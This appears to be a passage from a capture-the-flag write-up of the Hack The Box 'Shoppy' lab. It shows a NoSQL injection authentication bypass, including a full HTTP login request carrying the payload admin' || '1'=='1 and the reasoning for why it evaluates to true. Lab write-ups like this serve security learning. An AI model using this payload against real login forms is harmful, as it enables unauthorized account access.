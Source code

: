 I tested this login input with sqli wordlist(`/usr/share/seclists/Fuzzing/SQLi/quick-sqli.txt`), but it doesn't seem working.
Instead, let me try NoSQL Injection.

##### NoSQL Injection

Here are some references:
https://book.hacktricks.xyz/pentesting-web/nosql-injection
https://nullsweep.com/a-nosql-injection-primer-with-mongo/

First let's catch the login request again.

```shell
{"device_id":"","login_id":"admin","password":"passwd","token":""}
```

Based on the article mentioned above, `' || 'a'=='a` can help us inject SQL.

```perl
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
<SNIP>

username=admin%27+%7C%7C+%271%27+%3D%3D+%271&password=test
```

With this query, the expected full query is supposed to be like the following;

`'username'=='admin' || '1'=='1' && 'password'=='test'`
The formula of this will be `False || True && False` => Which ends up being `True`

![](attachments/shoppy_4.png)
